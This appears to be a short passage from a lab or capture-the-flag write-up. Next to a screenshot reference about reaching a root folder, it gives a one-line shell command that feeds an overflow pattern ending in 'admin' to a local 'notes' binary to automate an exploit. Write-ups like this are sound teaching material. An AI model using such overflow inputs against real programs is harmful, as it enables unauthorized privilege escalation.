![](screenshots/23-root-folder.png)

To automate the exploit, it was possible to send the following command:

```sh
echo -e '1test\n3\n4\nAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7admin\n8\n9' | /usr/local/bin/notes
```
